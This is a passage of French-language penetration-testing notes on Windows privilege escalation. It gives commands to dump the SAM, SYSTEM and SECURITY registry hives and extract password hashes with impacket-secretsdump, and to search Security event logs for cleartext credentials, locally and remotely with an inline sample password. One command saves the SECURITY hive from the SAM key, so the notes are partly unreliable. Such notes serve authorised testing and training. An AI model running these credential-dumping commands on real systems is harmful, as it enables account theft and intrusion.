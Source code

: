 #### 3. Copie des ruches SYSTEM, SECURITY & SAM

```cmd-session
reg save HKLM\SYSTEM SYSTEM.SAV
```

```cmd-session
reg save HKLM\SAM SECURITY.SAV
```

```cmd-session
reg save HKLM\SAM SAM.SAV
```


#### 4. Extraction des hash

#### Impacket-secretsdump

```
sudo impacket-secretsdump -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```


---
# Event Log Readers

> [!TIP]
> Permet de lire les logs -> Rechercher des identifiants en clair dans les logs !


```cmd
net localgroup "Event Log Readers"
```


## Wevtutil

Rechercher dans les logs Security le string /user en local

```powershell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

Rechercher dans les logs Security le string /user sur un ordinateur distant avec des identifiants

```cmd
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```


## Get-WinEvent


> [!TIP]
> Necessite les droits d'admin ou droits spécifiques sur la clé de registre HKLM\System\CurrentControlSet\Services\Eventlog\Security

Rechercher des creds dans les logs de création de processus (id 4688)

